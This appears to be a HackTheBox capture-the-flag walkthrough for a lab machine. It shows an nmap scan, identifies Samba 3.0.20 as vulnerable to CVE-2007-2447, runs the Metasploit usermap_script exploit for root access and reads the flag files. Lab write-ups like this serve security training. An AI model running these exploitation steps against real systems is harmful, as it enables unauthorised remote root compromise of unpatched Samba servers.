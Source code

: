### Knowledge requirements:

1. CMD UNIX/Linux.
2. Network fundamentals.


### Beginning og the tutorial:

We start with a IP check connection:


```
ping 10.10.10.3
```

Connection succeeded. Now we run `nmap` and save the output in "output_nmap.txt":

```
nmap -sC -sV 10.10.10.3 -oN output_nmap.txt
```

`nmap` is a tool to scan and obtain hosts information within a network. It is highly used in network auditories. It allows administrators to discover hosts and network services, as well as open ports, operating systems or software versions.

`-sC`: This argument activates the scripts that belong to `nmap's library`. It activates "default" and "safe" scripts to provide information about services and applications executed on the detected ports.

`-sV`: This argument tries to determine the service version of the open ports.

We see some open ports and choose the following: `445/tcp open netbios-ssn samba smbd 3.0.20-Debian (workgroup: WORKGROUP)`

Details about the service and software version of this port:

1) `Port 445/tcp` is used by SMB service for communication. It is known to be susceptible to various types of attacks. Including DoS, shared resource enumeration and remote code execution (if vulnerabilities exist).

2) `Samba` service is an implementation of SMB (Server Message Block) protocol that enables interoperability between Linux/UNIX and Windows systems.
It facilitates file and printer sharing between Windows and Unix/Linux-based systems.

3) `smbd 2.0.20-Debian`version. Knowing the software version can be useful in determining if there is a known vulnerability associated to this port. The older the version, the more likely it is to have several vulnerabilities that can be exploited. You can check on vulnerability databases (e.g., [CVE](https://cve.mitre.org/cve/search_cve_list.html)) to see if there are exploits or attack techniques that can be leveraged.

Checking on Google (or using [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-2447)) `Samba smbd 3.0.20-Debian` you can observe the `CVE-2007-2447 Samba "username map script" Command Execution`[in rapid7 website](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/).

Rapid7 webpage provides the information to load the needed module and exploit this vulnerability. To do so, we call `metasploit`. Run:
```
msfconsole
use exploit/multi/samba/usermap_script
set rhost 10.10.10.3
```
`set rhost 10.10.10.3` Specifies the remote host that you intend to interact with. It uses the payload automatically. In metasploit terminology, a `payload` refers to the component of an exploit module that performs a specific action on a target system. Then execute:

```
whoami
```
To verify that we are a root user. Then run:
```
cd home/
ls -la
```
Check for the folder `makis`, access it and get the outcome of "user.txt". For that run:
```
cd makis
cat user.txt
```
The same for root user. In one command:
```
cat /root/root.txt
```
Which is the information you must introduce into HackTheBox.

#### End of the tutorial.
